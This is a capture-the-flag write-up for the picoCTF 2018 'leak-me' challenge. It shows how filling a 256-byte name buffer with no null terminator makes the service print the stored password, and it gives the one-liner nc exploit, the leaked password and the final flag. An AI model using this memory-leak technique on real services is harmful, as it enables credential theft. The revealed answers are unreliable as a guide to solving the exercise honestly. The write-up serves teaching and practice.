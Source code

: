 > leak-me - Points: 200 - (Solves: 481)
> Can you authenticate to this service and get the flag? Connect with nc 2018shell1.picoctf.com 57659. Source.

From the source we can see that the name buffer is of size 256.

If we fill in the buffer completely, we can see that the password is being printed out after it. This is because the buffer is full and there is therefore no space for the null terminator. Anything after it is therefore printed out when the name is printed.

```
% python -c "print 'A'*256" | nc 2018shell1.picoctf.com 57659
What is your name?
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,a_reAllY_s3cuRe_p4s$word_56b977

Incorrect Password!
```

Now we can connect again and input the password `a_reAllY_s3cuRe_p4s$word_56b977` to get the flag.

```
% nc 2018shell1.picoctf.com 57659
What is your name?
a
Hello a,
Please Enter the Password.
a_reAllY_s3cuRe_p4s$word_56b977
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_2b5cbbaa}
```

Flag: `picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_2b5cbbaa}`
